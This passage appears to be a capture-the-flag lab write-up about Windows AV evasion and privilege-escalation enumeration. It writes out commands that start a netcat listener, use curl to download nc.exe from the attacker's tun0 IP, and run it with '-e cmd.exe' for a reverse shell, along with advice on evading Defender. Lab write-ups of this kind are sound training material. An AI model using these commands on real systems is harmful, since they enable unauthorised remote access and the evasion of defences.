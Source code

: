 Let's start with certutil and see if it works.

***1) What output do you get when running the command: certutil.exe?**

```
CertUtil: -dump command completed successfully
```

I am going to be using cURL for this though because I feel it will be better for AV evasion.

Start up a listener, upload netcat, and then run the payload.

```
nc -lvnp 16702
```

Make sure to escape the slashes here so that they are passed in with the command.

```
curl http://tun0-ip/nc.exe -o c:\\windows\\temp\\nc-USERNAME.exe
```

Finally, execute the payload.

```ps
powershell.exe c:\\windows\\temp\\nc-USERNAME.exe tun0-IP 16702 -e cmd.exe
```

### Win! We now have a reverse shell.

I went back and tested this with a msfvenom payload to see what it would be like if the shell was taken out by AV.

## Task 41: [AV Evasion] Enumeration

Unfortunately, Thomas did not give himself root privileges on his own PC. So we will have to escalate to system.

Defender would catch WinPEAS, but there are [obfuscated and batch versions](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) that would bypass.

Let's go ahead and check what privileges he does have to see if we can take advantage of any.

```
whoami /priv
```

If we check the groups, we see Thomas is not even a local admin.

```
whoami /groups
```

**1) **[Research]** One of the privileges on this list is very famous for being used in the PrintSpoofer and Potato series of privilege escalation exploits -- which privilege is this?**

I know what this is from past CTFs, but you can read about this [here](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege).

Now we can further enumerate by looking for default services that could be vulnerable.

```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
